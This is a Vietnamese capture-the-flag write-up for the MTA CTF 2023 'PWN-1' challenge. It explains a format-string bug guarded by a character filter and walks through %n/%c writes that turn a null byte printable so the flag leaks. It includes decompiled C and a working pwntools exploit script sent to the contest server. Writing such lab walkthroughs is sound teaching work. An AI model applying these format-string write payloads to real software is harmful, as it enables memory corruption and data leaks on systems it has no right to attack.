# PWN-1 (MTA CTF 2023)

1 chall khá đơn giản cho các bạn mới học fmt

## ida
```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+8h] [rbp-58h]
  char format[16]; // [rsp+10h] [rbp-50h] BYREF
  char s[56]; // [rsp+20h] [rbp-40h] BYREF
  unsigned __int64 v7; // [rsp+58h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  stream = fopen("./flag.txt", "r");
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  if ( stream )
  {
    printf("My stack: %p\n", format);
    memset(s, 0, 0x30uLL);
    fgets(s, 48, stream);
    while ( 1 )
    {
      printf("Your format: ");
      get_str((unsigned __int8 *)format, 16);
      if ( !filter((__int64)format, 15u) )
        break;
      printf(format);
    }
    exit(-1);
  }
  return -1;
}

```

**checks:**

![image](https://github.com/gookoosss/CTF/assets/128712571/7a34f6ac-68e7-4896-93f8-c060a1622fb6)



debug qua thì ta thấy flag được gán vào trong stack, nếu vậy thì ta dùng %p rồi leak flag ra thôi hehe, ez quá

![image](https://github.com/gookoosss/CTF/assets/128712571/5178fc07-2fd7-4e00-a205-d59dde78d312)


**nếu bạn làm cách này thì bạn còn hơi non đó :)) vì chưa kịp đến printf thì đã bị exit bởi hàm filter rồi**

```c 
_BOOL8 __fastcall filter(__int64 a1, unsigned int a2)
{
  signed int i; // [rsp+18h] [rbp-4h]

  if ( !a1 )
    return 0LL;
  if ( !a2 )
    return 0LL;
  for ( i = 0; i < a2; ++i )
  {
    if ( (*(char *)(i + a1) <= '/' || *(char *)(i + a1) > '9')
      && *(_BYTE *)(i + a1) != '%'
      && *(_BYTE *)(i + a1) != 'c'
      && *(_BYTE *)(i + a1) != 'n'
      && *(_BYTE *)(i + a1) != 'h'
      && *(_BYTE *)(i + a1) != '$' )
    {
      return !*(_BYTE *)(i + a1);
    }
  }
  return 1LL;
}
```

phân tích hàm filter thì thấy nó **cho phép ta nhập vào các chữ số , %, c , n , h và cuối cùng $**
```
=> đồng nghĩa với việc bài này ta ko thể dùng %p và %s được
```

thay đổi hướng khai thác bằng cách **sử dụng %n và %c**

## Phân tích

- vì ko thể sử dụng %p và %c nên ta ko thể leak được libc hay exe => **ko thể lấy shell trong bài này**
- **hướng duy nhất ta có thể làm là print flag**, vậy thì phải lợi dụng hàm printf của chương trình có sẵn
- để ý thì thấy chương trình cho ta nhập 15 byte, mà printf thì in ra đến khi nào gặp null byte, **15 byte thì chưa đủ chạm vào flag vì còn 1byte null**

![image](https://github.com/gookoosss/CTF/assets/128712571/bc10d300-5b7b-40f7-bb88-afe2c44be833)


- từ những ý trên thì ta đoán được **mục tiêu của ta bây giờ là làm sao cho byte null đó thành 1 byte in** được là ta sẽ in ra được flag


## Khai thác

- **chall có cho cho ta 1 món quà đó là 1 địa chỉ stack**
- từ địa chỉ stack đó ta tính offset đến stack có byte đầu tiên là nullbyte ta cần thay đổi

![image](https://github.com/gookoosss/CTF/assets/128712571/fc159958-0cdd-4e16-986e-e09f3c5c7759)


- để ý stack **0x007fffffffe0d8**, hãy **sử dụng %n và %c** để thay đổi **0x007fffffffe440** thành địa chỉ ta cần thay đổi 

![image](https://github.com/gookoosss/CTF/assets/128712571/682b1e7e-9a17-472a-b6cf-0855cd05819c)


- tiếp tục sử dụng %c và %n để thay đổi null byte thành byte có thể in được
- **cuối cùng ta đã lấy được flag rồi nè**

![image](https://github.com/gookoosss/CTF/assets/128712571/99fdb595-ea36-4165-a3a3-10e5543a4531)


vì mình ko thể debug được trên local nên ko thể có ảnh chi tiết cách làm nên các bạn thông cảm

## script:

```python 
from pwn import *

# exe = ELF('./chall')
# p = process([exe.path])
p = remote('103.130.219.236', 5001)

# # gdb.attach(p, gdbscript = '''
# # b*main+284
# # c
# # ''')

# input()

p.recvuntil(b'My stack: ')
stack = int(p.recvline()[:-1], 16)
need = stack + 0xf
log.info("Stack: " + hex(stack))
log.info("need: " + hex(need))


payload = f'%{need & 0xffff}c%23$hn'.encode()

p.sendafter(b'Your format: ', payload)

payload = f'%{0xbe}c%53$hhn'.encode()

p.send(payload)

payload = b'n'*15
p.send(payload)

p.interactive()
```

## Flag

MSEC{Pwn_is_dead}





